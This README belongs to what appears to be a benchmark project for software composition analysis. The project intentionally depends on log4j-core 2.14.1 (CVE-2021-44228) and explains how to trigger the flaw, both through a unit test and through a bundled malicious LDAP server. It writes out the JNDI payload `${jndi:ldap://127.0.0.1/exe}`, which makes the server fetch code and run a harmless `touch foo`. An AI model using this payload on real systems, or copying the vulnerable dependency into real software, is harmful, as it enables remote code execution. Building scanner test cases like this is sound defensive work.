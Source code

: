 ## log4shell true positive

This is a simple web project with a log4shell vulnerability. 
The project defines a simple `scabench.HelloWorldService` get service returning a plain text string `hello world`.
The service does not expect parameters, and if parameters are encountered, an error 
is logged. 

The vulnerable dependency is [org.apache.logging.log4j:log4j-core:2.14.1](https://mvnrepository.com/artifact/org.apache.logging.log4j/log4j-core/2.14.1), the vulnerability is [CVE-2021-44228](https://nvd.nist.gov/vuln/detail/CVE-2021-44228). 


### Demonstrating the Vulnerability using a Test 

This requires unix or macos. It is easy to port this project to windowsm, 

A unit test is provided to demonstrate the vulnerability. The test requires a ldap server providing vulnerable code, the respective executable is provided by the project, it is defined in a separate project [https://github.com/jensdietrich/Log4J-RCE-Proof-Of-Concept](https://github.com/jensdietrich/Log4J-RCE-Proof-Of-Concept) based on [https://github.com/HyCraftHD/Log4J-RCE-Proof-Of-Concept](https://github.com/HyCraftHD/Log4J-RCE-Proof-Of-Concept).
The test fixture will handle startup and shutdown of the ldap server.

The test will create a file `foo` based on a command encoded embedded in the code of the ldap server the log4j connects to
(`touch foo`). This server can be controlled by an attacker. 

To run the test build the project with `mvn test`.

### Demonstrating running the Application

1. start the embedded web server: `mvn jetty:run`
2. start the included the ldap server: `java -jar dodgy-ldap-server.jar` (the vulnerable copde will download Java code from this server)
3. point the browser to `http://localhost:8080/`, this site contains a pre-populated form with a malicious payload `${jndi:ldap://127.0.0.1/exe}`
4. submit this form
5. this will create a file `foo` on the server

### Running Software Composition Analyses

There are several sh scripts to run different analyses, result resports can be found in `scan-results`.



